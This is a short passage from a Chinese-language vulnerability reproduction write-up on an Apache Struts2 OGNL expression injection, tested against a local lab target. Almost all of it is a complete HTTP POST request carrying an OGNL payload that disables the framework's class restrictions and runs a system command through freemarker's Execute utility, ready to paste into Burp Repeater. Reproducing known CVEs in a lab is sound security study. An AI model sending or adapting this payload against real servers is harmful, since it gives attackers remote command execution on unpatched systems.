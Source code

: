 ```
启动靶场后发现也有同样的ONGL解析漏洞。
```

![image-20241127233814575](CVE漏洞复现/image-20241127233814575.png)	

```
直接bp点击repeater复制以下payload，即可发现命令执行了。

POST /index.action HTTP/1.1
Host: 192.168.15.50:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 835

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
